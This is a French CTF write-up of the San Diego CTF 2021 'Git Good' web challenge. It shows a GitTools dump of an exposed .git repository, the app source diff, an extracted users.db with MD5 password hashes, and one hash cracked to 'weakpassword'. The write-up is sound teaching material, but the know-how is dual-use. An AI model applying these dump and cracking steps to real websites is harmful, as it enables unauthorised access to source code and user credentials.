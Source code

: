 ```yaml
---
layout: post
title: San Diego CTF 2021 - Git Good
subtitle: Challenge Web
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
tags: [CTF, Write-Up, Git, GitTools, Dump, Web App, SQLite, MD5]
---
```


![Git-good-1.png](/img/Git-good-1.png)

**Le San Diego CTF 2021 s'est tenu du 8 au 10 mai 2021. Parmis les challenges proposés, je me suis penché sur le chall web Git-Good, un challenge plutôt sympa permettant d'exploiter un repo Git.**

# Énoncé

![Git-good-2.png](/img/Git-good-2.png)

# Solution

robots.txt:

![Git-good-3.png](/img/Git-good-3.png)

admin.html:

![Git-good-4.png](/img/Git-good-4.png)

2 inputs: email et password

repo git:

Il est possible de récupérer les fichiers du .git avec le [Dumper de GitTools](https://github.com/internetwache/GitTools/tree/master/Dumper){:target="_blank"}

`./gitdumper.sh https://cgau.sdc.tf/.git/ app`

![Git-good-5.png](/img/Git-good-5.png)

La commande `git show` nous permet d'afficher le code source:

~~~
root@Host-001:/tmp/app/.git# git show
commit 0b23360a5d79ecf5241fd6790edd619304825b9a (HEAD -> master)
Author: Aaron <aaron@cgau.sdc.tf>
Date:   Sat Jan 16 12:58:53 2021 -0800

    Upgraded to bcrypt

diff --git a/app.js b/app.js
index 9a55d59..2c55d1c 100644
--- a/app.js
+++ b/app.js
@@ -3,6 +3,7 @@ const express = require('express')
 const bodyParser = require('body-parser')
 const sqlite3 = require('sqlite3').verbose()
 const md5 = require('md5')
+const bcrypt = require('bcrypt')
 
 // initial configs
 const app = express()
@@ -19,19 +20,26 @@ app.use(bodyParser.urlencoded({extended: true}))
 app.post('/login', (req, res) => {
     const email = req.body.email
     const password = md5(req.body.password)
-    const sql = `SELECT email, password FROM users WHERE email = ? AND password = ?`
+    const sql = `SELECT email, password FROM users WHERE email = ?`
 
     console.log("email: " + email)
-    console.log("password: " + password)
     
-    db.get(sql, [email, password], (err, row) => {
+    db.get(sql, [email], (err, row) => {
         if(err) {
             console.log('ERROR', err)
             res.sendStatus(401)
         } else if (!row) {
             res.sendStatus(401)
         } else {
-            res.sendFile( __dirname + '/secret.flag')
+            bcrypt.compare(password, row.password, (err, result) => {
+                if(err) {
+                    console.log(err)
+                    res.sendStatus(401)
+                } else if (!result)
+                    res.sendStatus(401)
+                else
+                    res.sendFile( __dirname + '/secret.flag')
+            })
         }
     })
 })
diff --git a/package-lock.json b/package-lock.json
index 20c9f02..6aab316 100644
--- a/package-lock.json
+++ b/package-lock.json
(...)
diff --git a/package.json b/package.json
index 9596c82..6a70ab0 100644
--- a/package.json
+++ b/package.json
@@ -9,6 +9,7 @@
   "author": "KNOXDEV",
   "license": "MIT",
   "dependencies": {
+    "bcrypt": "^5.0.0",
     "express": "^4.17.1",
     "md5": "^2.2.1",
     "sqlite3": "^4.1.1"
diff --git a/users.db b/users.db
index 84f1914..b1532f7 100644
Binary files a/users.db and b/users.db differ
root@Host-001:/tmp/app/.git# 
~~~

On voit qu'il existe une base de donnée sqlite3 nommée users.db. Cette DB n'est pas directement accessible:

![Git-good-6.png](/img/Git-good-6.png)

Bien qu'on ne puisse pas accéder directement à cette base de donnée, il est possible de la récupérer en utilisant à nouveau GitTools et son outil [Extractor](https://github.com/internetwache/GitTools/tree/master/Extractor){:target="_blank"}

Remarque: Un grand Merci à [anandrajaram21](https://github.com/anandrajaram21){:target="_blank"} pour m'avoir orienté vers l'Extractor de GitTools :)

`./extractor.sh app/ extract/`

Nous pouvons désormais consulter le contenu des bases de données, notamment celle ou les mots de passe sont en MD5:

~~~
root@Host-001:/tmp# sqlite3 /tmp/extract//0-d8eb39e3e2bb984ce687768d20f58d962942841d/users.db
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> select * from users;
1|aaron@cgau.sdc.tf|e04efcfda166ec49ba7af5092877030e
2|chris@cgau.sdc.tf|c7c8abd4980ff956910cc9665f74f661
3|yash@cgau.sdc.tf|b4bf4e746ab3f2a77173d75dd18e591d
4|rj@cgau.sdc.tf|5a321155e7afbf0cfacf1b9d22742889
5|shawn@cgau.sdc.tf|a8252b3bbf4f3ed81dbcdcca78c6eb35
sqlite> 
~~~

Nous trouvons notamment le mot de passe de aaron@cgau.sdc.tf

![Git-good-7.png](/img/Git-good-7.png)

e04efcfda166ec49ba7af5092877030e correspond à 'weakpassword'

![Git-good-8.png](/img/Git-good-8.png)

**Poursuivez avec :** 

- [JISCTF 2020 - Quals](https://0xss0rz.github.io/2020-11-22-JISCTF-2020-Quals/)

- [Attack Detection Fundamentals - Initial Access Lab 3](https://0xss0rz.github.io/2021-01-06-Attack-Detection-Initial-Access-3/)

- [Hack The Box - Remote](https://0xss0rz.github.io/2020-08-23-HTB-Remote/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
